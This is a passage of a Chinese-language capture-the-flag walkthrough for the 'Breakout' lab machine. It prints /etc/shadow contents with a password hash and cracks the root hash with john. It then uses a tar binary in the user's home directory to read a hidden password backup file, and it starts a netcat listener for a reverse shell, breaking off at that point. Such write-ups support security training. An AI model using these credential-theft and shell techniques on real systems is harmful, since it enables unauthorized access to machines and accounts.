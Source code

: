         backup:*:18919:0:99999:7:::
        list:*:18919:0:99999:7:::
        irc:*:18919:0:99999:7:::
        gnats:*:18919:0:99999:7:::
        nobody:*:18919:0:99999:7:::
        _apt:*:18919:0:99999:7:::
        systemd-timesync:*:18919:0:99999:7:::
        systemd-network:*:18919:0:99999:7:::
        systemd-resolve:*:18919:0:99999:7:::
        messagebus:*:18919:0:99999:7:::
        cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:99999:7:::
        systemd-coredump:!*:18919::::::
        ```
        
4. 尝试`john`破解`root`密码
    
    将root的密码复制保存到`password`
    
    ```python
    john password --format=crypt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (crypt, generic crypt(3) [?/64])
    Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
    Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
    Will run 8 OpenMP threads
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/share/john/password.lst
    ```
    
    破解了很久没爆出来
    
5. 我们接着寻找敏感文件
    - 在 `/var/backups` 下存在 `.old_pass.bak` ,我们使用上面步骤查看文件内容
        
        ```python
        [cyber@breakout ~]$ ./tar -cvf old_pass.tar /var/backups/.old_pass.bak
        ./tar: Removing leading `/' from member names
        /var/backups/.old_pass.bak
        [cyber@breakout ~]$ ./tar -xvf old_pass.tar
        var/backups/.old_pass.bak
        [cyber@breakout ~]$ cat var/backups/.old_pass.bak
        Ts&4&YurgtRX(=~h
        ```
        
        得到一串明文`Ts&4&YurgtRX(=~h` ，可能是密码
        
6. 我们可以尝试一下`root`账号使用上面得到的明文登录
    - 在网页上的命令行是不行，我们进行反弹`shell` ，同时`kali`开启监听
        
        ```python
        # kali 监听
        nc -lvp 1234            
        listening on [any] 1234 ...
        